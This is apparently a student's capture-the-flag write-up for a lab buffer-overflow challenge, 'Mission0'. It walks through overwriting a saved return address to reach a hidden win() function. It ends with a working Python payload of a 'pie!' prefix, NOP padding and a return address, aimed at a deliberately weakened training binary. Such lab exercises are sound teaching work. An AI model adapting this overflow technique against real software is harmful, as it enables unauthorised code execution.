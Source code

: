 # Mission0 ~ buffer overflow
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission0.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.
## compiled options
The executable program is compiled in 32bit, the stack is executable and the canary is inactive.
```
gcc -fno-stack-protector -m32 -no-pie -O0 -o mission0 mission0.c
```
## Code overview
With the instruction system("cat flag") is possible to open the file flag with the same privileges as the vulnerable binary, this instruction is already in the following function, but it is never called. 
```
void win()
{
      puts("Please take your pizza");
      system("cat flag");
      exit(0);
}
```
The code contains an additional control on the input string, which must contain the substring "pie!".
```
if (strncmp(buf, "pie!", 4) == 0)
{
  // A real fan. You can return back.
  puts("Every minute, every second, buy, buy, buy, buy, buy.");
  return 0;
}
else
{
  // No way. I can't "return" from this point.
  puts("You're not a fan. You are imprisoned forever.");
  exit(1);
}
```
> **note:** The buffer (input string) has a variable length for each student, 168 in our case.


## Solution
The exploit is a classical [buffer overflow](https://it.wikipedia.org/wiki/Buffer_overflow) on the buffer, the goal is to overwrite the value saved in the save EIP register (function return address) with the address of the win() function.
> **note:** Saved eip is locate on EBP + 4

In order to write a valid exploit it is necessary to:
  * Find the win() function address in the executable, with the following command:
  ```
  objdump -d mission0 Mintel
  ```
  \xcb\x84\x04\x08 in hex in our case.
  * Include the required substring in the input buffer (pie! wrote in hex is \x70\x69\x65\x21).
  * Locate the buffer address on the stack, and measure the distance from the EIP, this distance will be filled with nop operations (or other characters).

The final exploit must include, in order, the required substring, enough character to overwrite the save EIP and the jumping address as follow:
```
python -c "print '\x70\x69\x65\x21' + '\x90' * 173 + '\xcb\x84\x04\x08'" | ./mission0
```
